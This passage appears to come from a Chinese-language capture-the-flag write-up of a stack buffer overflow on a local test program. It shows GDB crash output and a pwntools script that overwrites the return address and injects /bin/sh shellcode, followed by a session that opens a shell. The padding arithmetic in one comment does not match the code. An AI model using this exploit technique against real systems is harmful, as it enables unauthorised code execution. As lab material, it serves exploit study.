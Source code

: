 ``` assembly
0020| 0xffffd1b4 ('C' <repeats 200 times>...)
0024| 0xffffd1b8 ('C' <repeats 200 times>...)
0028| 0xffffd1bc ('C' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

程序崩溃时恰好是`BBBB`位于`EIP`寄存器内。并且此时的`ESP`内的值即为之前`strcpy`函数执行期间`EBP`寄存器内的值。

可以构建下面的payload：

``` python
from pwn import *                                       

ret_addr = 0xffffd1a8     # ebp = 0xffffd1a0
shellcode = shellcraft.i386.sh()

payload = "A" * 24
payload += p32(ret_addr)
payload += '\x90' * 10
payload += asm(shellcode)
payload += "C" * 179      # 24 + 4 + 20 + 44 + 169 = 261

print payload
```

在GDB中执行，则可以得到预期结果：

	gdb-peda$ r `python2 exp.py `
	Starting program: /home/test/ctfaio/vuln `python2 exp.py `
	good!
	process 98974 is executing new program: /bin/dash
	$ echo 1
	1

但是直接运行程序却无法拿到shell，个人认为是由于直接运行程序的时候栈地址不同于在GDB中运行时。